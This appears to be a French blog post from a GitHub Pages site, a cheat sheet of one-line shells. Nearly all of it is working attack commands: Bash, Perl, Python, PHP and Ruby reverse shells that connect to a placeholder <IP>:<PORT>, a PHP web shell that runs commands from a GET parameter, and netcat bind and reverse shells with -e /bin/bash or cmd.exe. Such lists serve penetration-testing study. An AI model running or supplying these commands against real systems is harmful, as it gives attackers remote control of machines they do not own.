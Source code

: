 ```yaml
---
layout: post
title: Oneliner shell - Cheat sheet
subtitle: Simple shells & Reverse shells
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [Shell, Reverse shell, Cheat sheet, Python, PHP, Bash, Perl, Ruby, Netcat]
comments: false
---
```


**Créer un shell ou un reverse shell en une ligne de code, c'est faisable. Voici quelques possibilités.**

Remarque: pour les reverse shell commencer par lancer un listener du côté de la machine de l'attaquant:

~~~
nc -nlvp <PORT>
~~~

# Bash

## Reverse shell 

~~~
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
~~~

~~~
exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do $line 2>&5 >&5; done
~~~

~~~
exec /bin/sh 0</dev/tcp/<IP>/<PORT> 1>&0 2>&0
~~~

~~~
0<&196;exec 196<>/dev/tcp/<IP>/<PORT>; sh <&196 >&196 2>&196
~~~

# Perl

## Reverse shell

Version dépendante de « /bin/sh » :

~~~
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
~~~

Version indépendante de « /bin/sh » pour Linux (avec fork) :

~~~
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<IP>:<PORT>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
~~~

Si le système cible est un Windows (sans fork) :

~~~
perl -MIO -e "$c=new IO::Socket::INET(PeerAddr,'<IP>:<PORT>');STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;"
~~~

# Python 

## Reverse shell

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

# PHP

## Web shell

~~~
<?php system($_GET['cmd']);?>
~~~

## Reverse shell

~~~
php -r '$s=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);`/bin/sh -i <&3 >&3 2>&3`;'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);system("/bin/sh -i <&3 >&3 2>&3");'
~~~

~~~ 
php -r '$s=fsockopen("<IP>",<PORT>);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
~~~

# Ruby

## Reverse shell 

One-line dépendante de « /bin/sh » :

~~~
ruby -rsocket -e'f=TCPSocket.open("<IP>",<PORT>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
~~~

Version indépendante de « /bin/sh » pour Linux (avec fork) :

~~~
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<IP>","<PORT>");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
~~~

Version pour Windows (sans fork) :

~~~
ruby -rsocket -e "c=TCPSocket.new('<IP>','<PORT>');while(cmd=c.gets);IO.popen(cmd,'r'){|io|c.print io.read}end"
~~~

# Netcat

## Bind shell

~~~
#Linux
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555

# Windows
nc.exe -nlvp 4444 -e cmd.exe
~~~

## Reverse shell

~~~
# Linux
nc -lvp 5555
nc 192.168.1.101 5555 -e /bin/bash

# Windows
nc -lvp 443
nc.exe 192.168.1.101 443 -e cmd.exe
~~~

Références:

- Acunetix, Web shells 101, [https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/)
- Asafety, Reverse-shell one-liner Cheat Sheet, [https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/)
- Reverse shells, [https://sushant747.gitbooks.io/total-oscp-guide/reverse-shell.html](https://sushant747.gitbooks.io/total-oscp-guide/reverse-shell.html)
- Reverse shells, [https://alamot.github.io/reverse_shells/](https://alamot.github.io/reverse_shells/)


[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).

